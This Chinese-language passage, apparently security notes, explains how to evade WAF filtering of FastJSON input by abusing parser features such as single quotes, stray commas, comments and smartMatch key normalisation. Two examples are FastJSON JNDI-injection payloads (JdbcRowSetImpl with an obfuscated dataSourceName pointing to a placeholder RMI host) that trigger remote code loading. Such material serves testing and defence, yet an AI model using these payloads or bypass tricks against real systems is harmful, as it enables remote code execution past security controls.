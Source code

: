 ### 结合Feature词法分析器进行混淆绕过

以下内容部分来自 <sup>[tkswifty [浅谈fastjson waf Bypass思路](https://sec-in.com/article/950) 文章]</sup>

**AllowSingleQuotes**

AllowSingleQuotes 特性决定 parser 是否允许单引号来包住属性名称和字符串值。

可以使用单引号替代双引号，配合编码或者其他方式进行混淆绕过 waf 语义分析：
```json
{'name':'test'}
```

**AllowArbitraryCommas**

AllowArbitraryCommas 特性允许多重逗号。那么可以在多个属性之间引入多个逗号,进行混淆：
```json
{,,,,,,,,,,"name":"test",,,,,,,,"age":20}
```

**AllowComment**

AllowComment 该特性决定 parser 将是否允许解析使用 Java/C++ 样式的注释（包括'/'+'*' 和'//' 变量）。

可以通过插入相关的注释进行混淆，也可以构造超长数据包的方式进行 Bypass：
```json
{"name":"test"/*hahahhah*/,"age":20}
```

### 利用 FastJson 智能匹配进行混淆绕过

FastJSON 存在智能匹配的特性，即使 JavaBean 中的字段和 JSON 中的 key 并不完全匹配，在一定程度上还是可以正常解析的。主要是在 JavaBeanDeserializer.smartMatch 方法进行实现。假设当前 UserBean 的属性如下，可以利用智能匹配的特性，可以尝试使用如下方法对 key 进行混淆：
```java
private String name;
private Integer age;
```

**使用-和_进行混淆**

FastJSON 会对 JSON 中没有成功映射 JavaBean 的 key 做智能匹配，在反序列的过程中会忽略大小写和下划线，自动会把下划线命名的 Json 字符串转化到驼峰式命名的 Java 对象字段中。

使用 `-` 混淆字段名
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","d-a-t-aSou-rc-eN-ame":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```

使用 `_` 混淆字段名
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","d_a_t_aSou_rc_eN_ame":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```

1.2.36 版本及后续版本还可以支持同时使用_和 - 进行组合混淆
```json
{"n-a_m-e":"test","age":20}
```
